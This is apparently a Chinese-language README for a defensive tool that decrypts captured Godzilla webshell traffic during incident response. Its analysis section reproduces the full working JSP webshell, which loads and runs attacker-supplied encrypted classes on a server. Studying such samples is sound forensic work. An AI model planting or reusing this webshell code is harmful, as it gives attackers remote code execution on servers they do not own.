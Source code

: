 # kingkong

解密哥斯拉Godzilla-V2.96 webshell管理工具流量

**目前只支持jsp，base64+aes的payload**

# Usage

1. 获取攻击者上传到服务器的webshell样本
![01解码unicode.png](./docs/01解码unicode.png)
2. 获取wireshark之类的流量包，一般甲方有科来之类的全流量镜像设备，联系运维人员获取，这里以`test.papng`为例。
![02wireshark包.png](./docs/02wireshark包.png)
3. 导出所有http对象，放置到文件夹
![03导出对象.png](./docs/03导出对象.png)
![04导出对象.png](./docs/04导出对象.png)
4. 编辑`kingkong.py`脚本，找到`#config`这行，配置获取到的样本password、key，以及刚才的文件夹路径
![](./docs/05配置.png)
5. py -2 kingkong.py
![](./docs/06解密流量.png)


# Analysis

1. 对生成的webshell格式化

```java
<%!
String xc="3c6e0b8a9c15224a"; //md5("key")[0:16]
String pass="pass"; //get参数
String md5=md5(pass+xc); //响应分隔符
class X extends ClassLoader
    {
        public X(ClassLoader z)
        {
            super(z);
        }
        public Class Q(byte[] cb)
        {
            return super.defineClass(cb, 0, cb.length);
        }
    }


    //aes解密
    public byte[] x(byte[] s,boolean m)
    {
        try{
            javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
            c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));
            return c.doFinal(s);
            }catch (Exception e)
            {
                return null;
            }
    }
    //md5 16位大写
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
            } catch (Exception e) {}
            return ret;
    }


    //base64编码
    public static String base64Encode(byte[] bs) throws Exception
    {
        Class base64;
        String value = null;
        try {
            base64=Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value;
    }


    //base64解码
    public static byte[] base64Decode(String bs) throws Exception
    {
        Class base64;
            byte[] value = null;
        try {
                base64=Class.forName("java.util.Base64");
                Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
            }
        catch (Exception e)
            {
            try {
                    base64=Class.forName("sun.misc.BASE64Decoder");
                    Object decoder = base64.newInstance();
                    value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
                }
            catch (Exception e2)
                {


                }
            }
            return value;
    }
%>
<%
try{
        byte[] data=base64Decode(request.getParameter(pass));
        data=x(data, false);
        if (session.getAttribute("payload")==null)
        {
            session.setAttribute("payload",new X(pageContext.getClass().getClassLoader()).Q(data));
        }else
        {
                    request.setAttribute("parameters", new String(data));
                    Object f=((Class)session.getAttribute("payload")).newInstance();
                    f.equals(pageContext);
                    response.getWriter().write(md5.substring(0,16));
                    response.getWriter().write(base64Encode(x(base64Decode(f.toString()), true)));
                    response.getWriter().write(md5.substring(16));
        }
    }catch (Exception e)
        {


        }
%>
```

2. 可以看到主要有base64编码解码、aes解密、md5 hash功能
其中重点关注密钥参数：
```
String xc="3c6e0b8a9c15224a";
```

3. 该参数由生成webshell中的“密钥”参数定义，具体值为：
```
md5(xc)[0:16]
```
4. webshell客户端接收到服务端下发的指令后，进行base64解码，aes解密处理完成后，生成响应报文，其中报文结构为：
```
md5(pass+xc)[0:16]+base64编码的木马执行结果+md5(pass+xc)[16]
```